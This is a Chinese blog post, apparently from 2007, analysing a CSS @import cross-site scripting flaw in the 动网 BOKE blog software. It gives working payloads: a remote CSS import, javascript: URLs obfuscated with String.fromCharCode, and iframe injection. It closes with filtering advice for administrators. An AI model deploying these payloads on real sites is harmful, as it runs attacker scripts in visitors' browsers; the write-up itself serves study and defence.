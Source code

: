 ```yaml
---
pubDatetime: 2007-03-16T15:20:00Z
title: "动网BOKE的CSS跨站漏洞分析"
description: "前一段时间，找到了动网 BOKE的跨站漏洞，这个漏洞可以用CSS来跨站，也就是样式表，具体的跨站方法分享给大家。"
tags: ["XSS", "CSS", "动网", "跨站", "安全漏洞"]
featured: false
draft: false
---
```


前一段时间，找到了动网 BOKE的跨站漏洞，这个漏洞可以用CSS来跨站，也就是样式表，具体的跨站方法是：

## 基本利用方法

选择"代码"方式，在其中输入以下代码：

```html
<style type='text/css'>@import url(http://www.pc010.cn/1.css);</style>
```

其中的@import 是CSS的自定义属性，url是要链接的CSS样式，而 http://www.pc010.cn/1.css 的内容如下：

```css
<style type="text/css">
<!--
@import url(javascript:eval(String.fromCharCode(97,108,101,114,116,40,39,84,101,115,116,32,49,39,41,59,97,108,101,114,116,40,39,84,101,115,116,32,50,39,41,59)));
-->
</style>
```

这是一段弹出alert窗口的代码，其中的String.fromCharCode是用来将字符转为ASCII值的函数。

## 打开新窗口的代码

OPEN 的代码如下：

```javascript
@import url(javascript:eval(String.fromCharCode(111,112,101,110,40,39,104,116,116,112,58,47,47,119,119,119,46,110,111,104,97,99,107,46,99,110,39,44,39,-17702,-16435,-13610,-19743,39,44,39,119,105,100,116,104,61,50,48,48,44,104,101,105,103,104,116,61,50,48,48,39,41,59)));
```

## 隐藏显示方法

如果是要在当前窗口隐藏显示，可用document.body.innerHTML方法，代码是：

```javascript
document.body.innerHTML=document.body.innerHTML+"<iframe frameborder=0 width=200 height=200 scrolling=no src=http://www.pc010.cn></iframe>";
```

将以上的字符用ASCII转换工具转为ASCII值，放入String.fromCharCode函数中，就可以了。

## 简化的利用方式

当然，也可以不用String.fromCharCode函数，直接引入代码的语句是：

```javascript
@import url(javascript:eval("document.body.innerHTML=document.body.innerHTML+'<iframe frameborder=0 width=200 height=200 scrolling=no src=http://www.baidu.com></iframe>';"));
```

其中字符要用双引号引入才行。

## 最简单的方法

如果再去掉eval，那么语句就是：

```javascript
@import url(javascript:document.body.innerHTML=document.body.innerHTML+"<iframe frameborder=0 width=200 height=200 scrolling=no src=http://www.baidu.com></iframe>");
```

常量用双引号引入，而变量则直接引入，两者之间用+来连接，如果有特殊的字符，则可用String.fromCharCode进行转换，比如"<"，则可用String.fromCharCode(60)代替。

## 技术总结

这个漏洞利用了CSS的@import特性和javascript:协议的结合，绕过了常规的XSS过滤。动网BOKE在处理用户输入的CSS代码时没有进行充分的过滤，导致了这个安全问题。

这种利用方式比较隐蔽，因为表面上看起来只是在引入CSS样式文件，实际上却执行了恶意的JavaScript代码。

建议网站管理员对用户输入的CSS代码进行严格过滤，特别是@import和javascript:这类可能存在安全风险的内容。